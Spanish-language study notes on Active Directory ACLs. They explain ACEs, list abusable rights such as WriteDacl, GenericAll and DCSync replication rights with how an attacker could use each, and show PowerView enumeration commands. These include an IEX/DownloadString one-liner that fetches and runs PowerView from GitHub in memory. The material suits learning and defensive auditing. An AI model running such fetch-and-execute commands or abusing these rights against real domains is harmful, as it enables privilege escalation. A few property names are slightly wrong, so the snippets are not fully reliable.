 # Lista de control de acceso 

Tags: #AD #ACL #PowerView 

## Análisis del ACE

```bash 
1. ObjectDN: Especifica el objeto sobre el cual se aplican los derechos. Aquí, 'CN=FIRST-DC,OU=Domain Controllers,DC=domain1,DC=corp' indica que el objeto es el controlador de dominio 'FIRST-DC' dentro del dominio 'domain1.corp'.
    
2. ActiveDirectoryRights: WriteDac
    - 'WriteDacl' significa "Write Discretionary Access Control List" (escribir en la lista de control de acceso discrecional). Este derecho permite al usuario 'writedacldc.user' modificar la DACL del objeto 'FIRST-DC'.
    - La DACL es parte de la seguridad de un objeto y define quién tiene qué permisos sobre dicho objeto.
        
3. SecurityIdentifier e IdentityReference
    - El 'SecurityIdentifier' ('S-1-5-21-1861162130-2580302541-221646211-1124') y 'IdentityReference' ('writedacldc.user') identifican al usuario que tiene este derecho.

## Abusos por un Atacante ## 
Nota: Si un atacante compromete la cuenta 'writedacldc.user', podría abusar del derecho 'WriteDacl' de varias maneras:

1. Modificación de Permisos
    - El atacante podría modificar los permisos del controlador de dominio 'FIRST-DC' para otorgar derechos adicionales a otros usuarios o cuentas controladas por el atacante. Esto podría incluir otorgar derechos de administrador o permisos para realizar acciones críticas.
```

## Tipos de permisos 

```bash 
1. GenericAll
- Derechos totales sobre el objeto.
- Uso por un atacante**: Este permiso otorga control total sobre un objeto. Un atacante podría agregar usuarios a grupos, restablecer contraseñas o modificar cualquier aspecto del objeto en cuestión.

2. GenericWrite
- Actualización de los atributos del objeto.
- Uso por un atacante: Con este permiso, un atacante podría cambiar atributos críticos de un objeto, como el script de inicio de sesión, lo que podría utilizarse para ejecutar comandos maliciosos cuando los usuarios inicien sesión.

3. WriteOwner
- Cambiar el propietario del objeto a un usuario controlado por el atacante.
- Uso por un atacante: Al cambiar el propietario de un objeto a una cuenta que controla, el atacante puede asumir todos los derechos sobre dicho objeto, permitiéndole modificarlo a voluntad o incluso eliminarlo.

4. WriteDACL
- Modificar las ACEs (Entradas de Control de Acceso) del objeto y darle al atacante plenos derechos sobre el objeto.
- Uso por un atacante: Este permiso permite a un atacante alterar las ACLs del objeto, dándose a sí mismo más permisos y, potencialmente, obtener control completo sobre él.

5. AllExtendedRights
- Capacidad de añadir usuarios a un grupo o restablecer contraseñas.
- Uso por un atacante: Los derechos extendidos incluyen acciones críticas como añadir un usuario a un grupo administrativo o restablecer la contraseña de cualquier usuario, lo cual podría ser abusado para escalar privilegios o tomar control de cuentas.

6. ForceChangePassword
- Capacidad de cambiar la contraseña de un usuario.
- Uso por un atacante: Este permiso permite al atacante cambiar la contraseña de un usuario sin conocer la contraseña actual, lo que podría usarse para comprometer cuentas sin alertar al usuario legítimo.

7. Self (Self-Membership)
- Capacidad de añadirse a uno mismo a un grupo.
- Uso por un atacante: Si un atacante puede otorgarse a sí mismo la membresía a un grupo privilegiado, puede elevar sus privilegios dentro del entorno de AD.
```

## Tabla de Referencia de Permisos y Derechos en Active Directory

| Derecho en AD                  | Valor de Permiso/GUID                     | Tipo de Permiso                       | Descripción Breve                                                                                                 |
| ------------------------------ | ----------------------------------------- | ------------------------------------- | ----------------------------------------------------------------------------------------------------------------- |
| WriteDacl                      | `ADS_RIGHT_WRITE_DAC` (0x40000)           | Access Right                          | Permite modificar la DACL (lista de control de acceso discrecional) del objeto.                                   |
| GenericAll                     | `ADS_RIGHT_GENERIC_ALL` (0x10000000)      | Access Right                          | Proporciona control total sobre el objeto, incluyendo la modificación de permisos.                                |
| GenericWrite                   | `ADS_RIGHT_GENERIC_WRITE` (0x40000000)    | Access Right                          | Permite realizar cambios en las propiedades del objeto, pero no cambiar permisos ni borrar el objeto.             |
| WriteProperty                  | `ADS_RIGHT_DS_WRITE_PROP` (0x20)          | Access Right                          | Permite modificar las propiedades de un objeto.                                                                   |
| WriteOwner                     | `ADS_RIGHT_WRITE_OWNER` (0x80000)         | Access Right                          | Permite cambiar el propietario de un objeto.                                                                      |
| Self                           | No aplica/GUID específico de la operación | Access Right                          | Permite a un usuario modificar sus propios atributos o pertenencia a ciertos grupos.                              |
| AllExtendedRights              | `ADS_RIGHT_DS_CONTROL_ACCESS` (0x100)     | Access Right                          | Otorga todos los derechos extendidos, como cambiar contraseñas o leer propiedades no replicadas.                  |
| User-Force-Change-Password     | {00299570-246d-11d0-a768-00aa006e0529}    | Control Access Right (extended right) | Permite forzar el cambio de contraseña de otro usuario.                                                           |
| DS-Replication-Get-Changes     | {1131f6ae-9c07-11d1-f79f-00c04fc2dcd2}    | Control Access Right (extended right) | Permite sincronizar cambios de datos de AD (usado en ataques DCSync).                                             |
| DS-Replication-Get-Changes-All | {1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}    | Control Access Right (extended right) | Permite ver todos los cambios, incluyendo versiones anteriores y eliminadas de objetos (usado en ataques DCSync). |
| Self-Membership                | bf9679c0-0de6-11d0-a285-00aa003049e2      | Validate Write                        | Permite a un usuario modificar su propia pertenencia a ciertos grupos.                                            |
| Validated-SPN                  | f3a64788-5306-11d1-a9c5-0000f80367c1      | Validate Write                        | Permite a un servicio agregar o modificar el atributo Service Principal Name (SPN) de su propio objeto de cuenta. |

## Access Control Entry (ACE)

```bash
- Definición: Un ACE es un elemento individual en una lista de control de acceso (ACL). Define los permisos para un usuario, grupo u objeto específico.
- Contenido: Un ACE especifica qué operaciones (como leer, escribir, ejecutar) están permitidas o denegadas para un objeto y quién puede realizar esas operaciones.
- Ejemplo: Un ACE podría indicar que el usuario "John Doe" tiene permiso para leer y escribir en un archivo específico.


## Diferencias Clave de ACL y ACE ##
- Granularidad: Un ACE es un elemento individual que define permisos para un sujeto específico, mientras que una ACL es un conjunto de varios ACEs asociados a un objeto.
- Aplicación: Los ACEs son las reglas individuales, y la ACL es la lista completa de esas reglas aplicadas a un objeto.
```

## Enumeración con PowerView

```powershell
# Descargar el binario desde un repositorio 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');
```

```powershell 
❯ Get-ObjectAcl Object-Name -ResolveGUIDs
❯ Find-InterestingDomainAcl

❯ Get-ObjectAcl | select AceType,SecurityIdentifier,ActiveDirectoryRights,ObjectDN | Format-List 

Nota: En los ACE podemos encontrar este tipo de identificadores:
	# SID cortas 'S-1-5-9' = Grupos por defecto en AD
	# SID medianas 'S-1-5-32-557' = Grupos de Operadores 
	# SID largas 'S-1-5-21-1861162130-2580302541-221646211-1124' = Pertenece a un usuario 

❯ Convert-SidToName SID      # Convierte el numero SID al nombre que le pertenece 
```

```powershell 
❯ Get-ObjectAcl | %{$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.Security-Identifier)}

	# % = Es un bucle como 'foreach'
	# $_ = Objetos que tenemos por 'detras' 
	# $ = Ejecutaremos un comando
	# $_. = Llamamos a un atributo en este caso a 'Security-Identifier'
```

